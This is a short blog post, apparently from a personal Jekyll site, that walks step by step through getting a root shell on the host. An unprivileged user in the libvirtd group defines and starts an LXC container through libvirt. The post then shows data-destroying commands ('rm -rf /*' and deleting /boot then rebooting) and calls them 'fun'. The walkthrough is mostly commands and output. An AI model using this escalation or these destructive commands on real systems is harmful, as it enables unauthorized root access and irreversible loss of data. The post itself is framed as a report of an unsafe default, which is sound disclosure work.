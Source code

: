 ```yaml
---
layout: post
title: Docker Container Madness
---
```


I'm unsure if this is a vulnerability on the intended behaviour of LXC/Docker. 
Nevertheless, this harmless configuration file seems to cause A LOT of worry.

Preamble if you are running a Debian-based host. Make sure you have the Libvirt environment variable exported to work with LXC (e.g. `LIBVIRT_DEFAULT_URI=lxc:///` such that Libvirt doesn't go looking for Xen or KVM.
{% highlight bash %}
admin@host:~$ apt-get install docker virt-manager
# export LIBVIRT_DEFAULT_URI=lxc:///{% endhighlight %}

Create an unprivileged user, but with access to the libvirtd group:
{% highlight bash %}
admin@host:~$ useradd -G libvirtd user 
{% endhighlight %}
Now you should login as the ordinary user. Save the following XML template, which contains a name, a memory limit, console access and a shell. E.g. container.xml
{% highlight xml %}
  <domain type='lxc'>
	  <name>container</name>
	  <memory>102400</memory>
	  <os>
		  <type>exe</type>
		  <init>/bin/sh</init>
	  </os>
	  <devices>
		  <console type='pty'/>
	  </devices>
  </domain>
{% endhighlight %}
Import the container into Libvirt:
{% highlight bash %}
  user@host:~$ virsh define container.xml
{% endhighlight %}
Start the container:
{% highlight bash %}
  user@host:~$ virsh start test
  user@host:~$ virsh console test
{% endhighlight %}
And now run bash shell:
{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
  # bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
  root@host:/# 
{% endhighlight %}

Huh? You now have root on the host. 
What kind of messed up world is this? I can read/write to any file on the host:

{% highlight bash %}
  root@host:/# rm -rf /*
{% endhighlight %}

Or alternatively have a bit of fun
{% highlight bash %}
  root@host:/# rm /boot/*; reboot;
{% endhighlight %}


Is it possible to be careful with Docker? It doesn't seem safe for mortals.


{% highlight bash %}
# docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
```
{% endhighlight %}
